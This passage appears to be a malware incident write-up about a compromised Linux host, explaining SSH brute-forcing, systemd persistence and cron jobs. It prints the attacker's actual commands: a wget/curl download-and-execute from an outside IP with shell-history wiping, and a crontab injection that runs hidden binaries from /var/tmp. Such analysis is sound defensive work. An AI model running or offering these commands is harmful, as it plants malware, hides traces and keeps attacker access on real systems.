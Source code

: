 ```
rm -rf .bash_history ~/.bash_history
rm -rf /tmp/cache
cd /tmp/
wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu
mv .balu cache
chmod +x cache
./cache >/dev/null 2>&1 & disown
history -c
rm -rf .bash_history ~/.bash_history"
```
Further investigation revealed a persistent threat targeting the system, leveraging services, scripts, and cron jobs to conduct malicious activities such as SSH brute-forcing and potential data mining. The activities centered around the /var/tmp/.update-logs/ directory and specifically the use of the .bisis executable, which facilitated network exploitation and unauthorized access. 

**Systemctl Service Manipulation**

![image](https://github.com/user-attachments/assets/d0d9a2d2-2f5c-431d-9c55-8c5b89fb583a)


The malicious actor set up the persistence by enabling a custom service through systemctl. This action ensures that the service, named "myservice", starts upon system boot, providing continuous execution of the malicious processes after reboots.

Effect: This tactic guarantees that malicious activities continue running in the background, regardless of any system reboots or shutdowns. This service likely points to a malicious script that the attacker can control remotely or leverage for unauthorized access or brute-force operations.

**Creation and Execution of Cron Jobs:**

![image](https://github.com/user-attachments/assets/52f228b7-4bff-43af-b80c-f9f42ad8477f)
```
bash -c "echo '@daily
 /var/tmp/.update-logs/./History >/dev/null 2>&1 & disown @reboot /var/tmp/.update-logs/./Update >/dev/null 2>&1 & disown * * * * *
/var/tmp/.update-logs/./History >/dev/null 2>&1 & disown @monthly /var/tmp/.update-logs/./Update >/dev/null 2>&1 & disown * * * * *
/var/tmp/.update-logs/./.b >/dev/null 2>&1 & disown'
| crontab -"
```

This command created multiple cron jobs to execute files from the /var/tmp/.update-logs/ directory on a daily, monthly, and minute-by-minute basis. These jobs are set to run in the background using the disown command to detach from the terminal and avoid monitoring.

Files scheduled by cron jobs:

Update: Appears to be a key malware component.
History: Likely logs or tracks system history.
.b: Another malicious file, potentially used for network exploitation or lateral movement.

**Suspicious Script Execution and System Modification:**

![image](https://github.com/user-attachments/assets/a34598cc-500e-4c7e-8d6e-d594226ece18)
